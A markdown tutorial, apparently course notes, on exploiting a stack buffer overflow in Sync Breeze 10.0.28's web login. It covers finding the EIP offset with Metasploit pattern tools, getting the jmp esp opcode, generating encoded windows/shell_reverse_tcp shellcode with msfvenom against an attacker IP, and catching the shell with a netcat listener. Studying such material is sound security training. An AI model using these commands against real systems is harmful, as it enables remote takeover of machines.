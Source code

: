 ## MODULE 2: Exploiting Stack Overflows
(with no memory protection)

### Sync Breeze Application (v10.0.28) Setup and Initial Crash brief:
- Setup:
  - After installing the specific version of Sync Breeze, launch the Sync Breeze Client from the Start Menu
  - To enable to web server Click Options > Server > Enable Web Server on Port 80 or any > Save
  - We'll be crashing the application throughout the exploit development process so try opening Services.msc to quickly restart the application
- Initial Crash:
  - We perform a crash (code's [here](./exploits/02/00_syncbrs_exploit.py)) at the **POST /login** method with username(placing the exploit here i.e. A's or \x41 800 times) and password input fields, we come to find out that the following eip and esp registers point to the following addresses:
    > |Registers|Mem.Addr.|Mem.Value|
    > |--------|--------|--------|
    > |EIP ----->|mem_reg+0|41414141|
    > ||mem_reg+4|41414141|
    > |ESP ----->|mem_reg+8|41414141|
    > ||mem_reg+C|4141..........|

  - To have a step by step view of the exploit development process, have a look at the code files present in **./exploit/02/** folder starting from [00_syncbrs_exploit.py](./exploits/02/00_syncbrs_exploit.py) to [06FINAL_syncbrs_exploit.py](./exploits/02/06FINAL_syncbrs_exploit.py)

---

### Binary Tree Analysis:
 - A method to find the right offset of which part of the input string sits right on the Instruction Pointer. First we start with n/2 A's and n/2 B's, then see which part of the character sits in the Instruction pointer. If B is present then we divide then B's half as n/4 B's and n/4 C's, so on and so forth adding new characters along the way until the exact bytes that overwrites the Instruction Pointer are found

### Metasploit Pattern utility:
- An alternative (much faster) to Binary Tree Analysis we can come up with a long string input made of non repeating byte chunks where later that unique sequence(that sits on **Instruction Pointer**) could be used to further our exploitation process replacing that unique byte with a legit address to change the control flow
- This can be done using a tool(present in kali linux) called **msf-pattern_create** as follows:
  > `msf-pattern_create -l <input_length_that_caused_overflow>`
  - Later this can be used as a value in our input buffer to proceed with the exploitation process
- Then we try to run the application with our input buffer attaching it to a debugger we notice that the IP now has been replaced with the the byte chunk that was given as an input.
- Now to find the offset of where the IP gets replaced in the string, we use another tool called **msf-pattern_offset** as follows:
  > `msf-pattern_offset -l <input_length_that_caused_overflow> -q <bytes_present_in_IP>`

### Process Hacker for Meta Information Retrieval of Processes and DLLs:
- When developing an exploit we try to see where to return to a specific module that shouldn't have null characters or see whether there are any memory protection schemes present for that module, we can identify them in ease with this tool
- Inspecting the running vulnerable process > double click > General Tab > Process Section > Mitigation policies field if says None then it has no memory protection schemes integrated with it
- Browsing to the Modules tab, provides with all the DLLs that are loaded in the process memory, and we can double click > General Tab > Characteristics field displays whether DLL is integrated with any memory protection schemes

### Opcode Creation:
- We can make use of **msf-nasm-shell** (present in kali linux) as follows:
  > `msf-nasm_shell`
  >
  > nasm > `jmp esp` -----> get the opcode for this asm instruction
  >
  > 00000000 **FFE4** jmp esp -----> FFE4 being the opcode

### Msfvenom Shellcode Creation:
- We can build our shellcode with **msfvenom** tool as follows:
  > `msfvenom -p windows/shell_reverse_tcp LHOST=<attacker_ip> LPORT=<attacker_port> -f c`
- However when the shellcode is generated we need to remove bad characters from it that we'd have identified during our exploitation process
- For this we can make use of an advanced polymorphic encoder called as **shikata_ga_nai** as follows:
  > `msfvenom -p windows/shell_reverse_tcp LHOST=<attacker_ip> LPORT=<attacker_port> -f c -e x86/shikata_ga_nai -b "\x00\x....all_bad_chars"`
- Another problem to address is that when we exploit and terminate our reverse shell session, the vulnerable process completely exits the application and not the current thread
- So in order to terminate the thread and not the whole process we make use of an option called **EXITFUNC** with the value of **thread** as follows:
  > `msfvenom -p windows/shell_reverse_tcp LHOST=<attacker_ip> LPORT=<attacker_port> EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x....all_bad_chars"`

### Netcat Listener:
- To create a Reverse Shell:
  > `sudo nc -lvp <attacker_port>`
